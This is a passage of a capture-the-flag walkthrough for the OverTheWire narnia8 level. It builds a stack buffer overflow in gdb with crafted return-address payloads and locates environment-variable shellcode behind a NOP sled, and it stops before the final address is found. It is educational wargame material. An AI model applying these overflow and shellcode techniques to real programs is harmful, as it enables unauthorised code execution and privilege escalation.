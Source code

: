 ```
    �:�|K�,����~
TERM=xterm-256color
SHELL=/bin/bash
SSH_CLIENT=172.18.0.1 33590 22
SSH_TTY=/dev/pts/0
LC_ALL=C
USER=narnia8
---snip---
```
Adding an environmental variable also changes `blah`'s memory address, so in gdb, we need to once again find the new address.
```
run $(python -c 'print "A" * 20 + "\xcf\xd8\xff\xff" + "A"*12 +"ZZZZ"')
---snip---
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20xw $esp
0xffffd630:	0x08048580	0xffffd648	0x00000014	0xf7e55fe3
0xffffd640:	0x00000000	0x002c307d	0x41414141	0x41414141
0xffffd650:	0x41414141	0x41414141	0x41414141	0xffff53cf
0xffffd660:	0x00000002	0xffffd724	0xffffd688	0x080484cd
0xffffd670:	0xffffd861[1]	0xf7ffd000	0x080484fb	0xf7fcc000
(gdb) 

(gdb) run $(python -c 'print "A" * 20 + "\x61\xd8\xff\xff" + "A"*12 +"ZZZZ"')
---snip---
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20xw $esp
0xffffd630:	0x08048580	0xffffd648	0x00000014	0xf7e55fe3
0xffffd640:	0x00000000	0x002c307d	0x41414141	0x41414141
0xffffd650:	0x41414141	0x41414141	0x41414141	0xffffd861
0xffffd660:	0x41414141	0x41414141	0x41414141	0x5a5a5a5a
0xffffd670:	0xffffd861	0xf7ffd000	0x080484fb	0xf7fcc000
(gdb) cont
Continuing.
AAAAAAAAAAAAAAAAAAAAa���AAAAAAAAAAAAZZZZa���

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) 

```
So far so good. Now to find the address of the shellcode, which is a bit of a guessing game:
```
(gdb) x/24s $esp + 0x200
0xffffd870:	"AAAAAa\330\377\377", 'A' <repeats 12 times>, "ZZZZ"
0xffffd88a:	"SHELLCODE=", '\220' <repeats 30 times>, "\332\335\331t$\364\273u\257\364\177Z1\311\261\v\203\302\004\061Z\026\003Z\026\342\200\305\377'\363Hf\260.\016\357\247X\377\234O\230\227M\362\361\t\033\021S>\023\326S\276\v\264:\320|K\324,\324\370\255\314\027~"
0xffffd8f9:	"SHELL=/bin/bash"
0xffffd909:	"TERM=xterm-256color"
0xffffd91d:	"SSH_CLIENT=172.18.0.1 33590 22"
0xffffd93c:	"SSH_TTY=/dev/pts/0"
0xffffd94f:	"LC_ALL=C"
---snip---
(gdb) x/40xw 0xffffd88a
0xffffd88a:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xffffd89a:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8aa:	0x90909090	0x90909090	0x74d9ddda	0x75bbf424
0xffffd8ba:	0x5a7ff4af	0x0bb1c931	0x3104c283	0x5a03165a
0xffffd8ca:	0xc580e216	0x48f327ff	0x0e2eb066	0xff58a7ef
0xffffd8da:	0x97984f9c	0x09f1f24d	0x3e53111b	0xbe53d613
---snip---

(gdb) x/40xw 0xffffd894
```

[overthewire]: https://www.overthewire.org